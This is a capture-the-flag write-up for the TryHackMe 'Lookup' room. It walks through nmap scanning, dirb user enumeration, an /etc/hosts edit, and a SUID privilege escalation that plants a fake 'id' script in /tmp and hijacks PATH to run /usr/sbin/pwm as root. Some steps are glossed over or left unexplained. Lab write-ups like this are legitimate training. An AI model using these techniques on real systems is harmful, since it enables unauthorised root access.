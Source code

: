 # 🔍 TryHackMe - Lookup

**Room Name:** Lookup  
**IP Address:** 10.10.56.153  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Tags:** Enumeration, Web Exploitation, Privilege Escalation, SUID Abuse  

---

## 🔎 Initial Enumeration

Started with a full port scan using Nmap:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n 10.10.56.153
```

Discovered open ports:
- 22 (SSH)
- 80 (HTTP)





---

## 🌐 Web Enumeration

Visited `http://10.10.56.153` and found a login page. Attempted default credentials and guessed common usernames.

Ran a directory brute-force with DirBuster using `apache-user-enum-1.txt`:

```bash
dirb http://10.10.56.153/ /usr/share/wordlists/dirbuster/apache-user-enum-1.txt
```



Found `jose` as a valid user.

Attempted to log in as `jose`, and upon successful login, was redirected to `files.lookup.thm`. Added this to `/etc/hosts`:

```bash
sudo nano /etc/hosts
# Add:
10.10.56.153  files.lookup.thm
```



---

## 📁 Exploring Internal Interface

After login, accessed a file browser-style interface. Tried navigating to `/home/think`, but access was restricted.



---

## 🔍 Privilege Escalation

Accessed the machine via SSH and began post-exploitation enumeration. Listed all SUID binaries:

```bash
find / -perm /4000 2>/dev/null
```

Found a custom binary: `/usr/sbin/pwm`



Tried running it, and noticed it uses the `id` command. Created a fake `id` command in `/tmp` to hijack execution:

```bash
echo -e '#!/bin/bash
echo "uid=0(root) gid=0(root) groups=0(root)"' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```



This allowed root privilege execution.

---

## 🏁 Post-Exploitation

Accessed root’s home directory and read the `root.txt` flag:

```bash
cat /root/root.txt
```



---

## ✅ Summary

| Step | Technique |
|------|-----------|
| Enumeration | Nmap, Dirbuster |
| Exploitation | Web login + hostname redirection |
| Privilege Escalation | SUID Binary abuse via PATH hijack |
| Tools Used | Nmap, Dirbuster, Hydra, SSH, find, PATH export |

---

## 🧠 Key Takeaways

- Always test binaries for external command execution
- PATH hijacking is a powerful privilege escalation technique
- `/etc/hosts` manipulation is crucial for resolving internal services

---
🖼️ **Find all screenshots here:** [`screenshots/lookup/`](../screenshots/lookup/)
📁 [Back to TryHackMe Write-Ups](./README.md) | [Back to Portfolio Home](../README.md)
